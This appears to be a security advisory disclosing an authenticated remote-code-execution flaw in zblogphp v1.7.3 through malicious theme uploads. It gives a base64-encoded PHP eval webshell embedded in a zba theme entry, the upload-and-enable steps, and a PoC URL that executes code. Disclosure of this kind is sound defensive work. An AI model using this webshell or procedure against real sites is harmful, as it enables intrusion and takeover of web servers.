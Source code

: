 # Summary
There is a vulnerability in zblogphp v1.7.3 that allows administrator users to upload custom zba theme files and gain access to the website.

Affected versions:
- zblogphp <= v1.7.3-3230

# Details
Source code can be downloaded from: https://github.com/zblogcn/zblogphp/releases/download/v1.7.3-3230/zblogphp.zip .

After logging in as an administrator, you can upload custom themes here:
![image](https://github.com/user-attachments/assets/577d0bc3-38d4-4cc4-be96-8f81b3699700)

Download a template file from this link: https://app.zblogcn.com/?id=22606.

Open the downloaded zba file and find that the php file content is encrypted with base64:
![image](https://github.com/user-attachments/assets/43419a65-3d38-4475-a92e-56c58145c131)
![image](https://github.com/user-attachments/assets/5e59baa0-50d3-46d8-a25a-c1239f87a76e)

We can add a malicious webshell file ourselves according to the format of this file:
(Note that when writing webshell, you need to wrap the line and cannot write it directly as a sentence.)
```php
<file><path>aymFreeFive/1.php</path><stream>PD9waHAgCkBldmFsKCRfUkVRVUVTVFsxXSk7Cj8+</stream></file>
```

![image](https://github.com/user-attachments/assets/bd4b5952-4d89-46b1-8498-c0bbaa2fbc05)

Then write this content into the zba file:
![image](https://github.com/user-attachments/assets/aa4369be-0d35-46d8-9cdc-4c26601ac032)

Then upload the zba theme file,![image](https://github.com/user-attachments/assets/f536ddcc-4e84-4776-8dd0-829cf54e2506)

Then enable our custom uploaded theme, visit `/zb_users/theme/aymFreeFive/1.php?1=phpinfo()` and we get a shell:
![image](https://github.com/user-attachments/assets/28a4591d-fa00-4fc6-b13b-1caf24d9b63b)

# PoC
`/zb_users/theme/aymFreeFive/1.php?1=phpinfo()`

![image](https://github.com/user-attachments/assets/28a4591d-fa00-4fc6-b13b-1caf24d9b63b)
